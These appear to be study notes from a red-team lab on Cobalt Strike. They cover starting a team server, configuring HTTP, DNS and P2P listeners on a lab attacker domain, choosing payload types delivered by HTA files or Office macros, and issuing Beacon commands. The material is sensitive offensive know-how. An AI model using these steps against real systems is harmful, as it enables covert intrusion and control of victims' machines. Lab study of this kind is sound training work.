 # Command & Control

## Starting the Team Server

1. Log into Attacker Desktop
2. Right-click on Terminal icon in the taskbar
3. Select Team Server (SSH)
4. (Opt) tmux session
5. ```cd cobaltstrike```
6. ```sudo ./teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile```
7. Once SHA of teamserver appears, run Cobalt Strike client from the taskbar
8. Connect (confirm fingerprint first time)

## Listener Management

Use nickelviper.com for stager, which points to 10.10.5.50

* Egress listeners (Cobalt Strike > Listeners) - allow Beacon to communicate outside of the target network to team server
  * HTTP - allows Beacon to send and receive C2 messages over HTTP GET and/or POST requests (check with ```sudo ss -lntp```)
  * DNS - C2 messages over several lookup/response types like A, AAAA and TXT. TXT used by default (holds the most amount of data). Use pics.nickelviper.com for stager. (Check with ```dig @ns1.nickelviper.com test.pics.nickelviper.com +short```; should give 0.0.0.0.)
  * P2P - chain multiple Beacons together in parent/child relationships to reduce overall host traffic or to allow beacons on hosts unable to egress data out of network. Link child Beacon to an egress HTTP/DNS Beacon, and traffic from the child is sent to the parent, which sends to the team server.
    * SMB - starts a new named pipe server and listens for an incoming connection. This pipe is available both locally and remotely. (Use a name that will blend with existing pipes -- ```PS C:\> ls \\.\pipe\``` shows them.)
    * Raw TCP - binds and listens on the specified port number.

Create all listeners:
| name | payload | host | port | beacons | profile |
|--|--|--|--|--|--|
| dns | windows/beacon_dns/reverse_dns_txt | pics.nickelviper.com | 53 | pics.nickelviper.com | default |
| http | windows/beacon_dns/reverse_http | nickelviper.com | 80 | nickelviper.com | default |
| smb | windows/beacon_bind_pipe | | TSVCPIPE-abcd... | | |
| tcp | windows/beacon_bind_tcp | | 4444 | 0.0.0.0 | |
| tcp-loc | windows/beacon_bind_tcp | | 4444 | 127.0.0.1 | |

## Generating Payloads

Use Payloads menu to generate different kinds of payloads:
| | | |
|--|--|--|
| HTML App | .hta file delivered through browser via social engineering | x86, only for egress listeners |
| MS Office Macro | VBA that can be dropped into a macro-enabled MS Word or Excel file | x86/x64, only for egress listeners |
| Stager Payload Generator | Payload stager in C, C#, PowerShell, Python, VBA, etc.; for custom payloads/exploits | x86/x64, only for egress listeners |
| Stageless Payload Generator | Stageless payloads rather than stagers. Can specify an exit function (process/thread) | Also for P2P listeners |
| Windows Stager Payload | Pre-compiled stager as an EXE, Service EXE, or DLL. | |
| Windows Stageless Payload | Pre-compiled stageless payload as an EXE, Service EXE, DLL, shellcode, or PowerShell | P2P listeners |
| Windows Stageless Generate All Payloads | Every stageless payload variant for every listener | x86/x64 |

Save payloads to C:\Payloads (Defender has an exception for that directory).

## Interacting with Beacon

1. Launch a beacon on the Attacker Desktop
2. Change beacon's sleep cycle if desired, e.g. ```sleep 5``` (_but watch how noisy it can get -- not a prob in lab network_)
3. Confirm beacon in Wireshark; filter for http, look for GET request with 200 response (use Follow > HTTP Stream) -- how traffic appears can be customised in the Malleable C2 profile
4. Check control by using some commands, like ```pwd```, ```dir```, ```whoami```, etc.
5. DNS beacons do not automatically send metadata; use ```checkin``` command

## Pivot Listeners
## Running as a Service

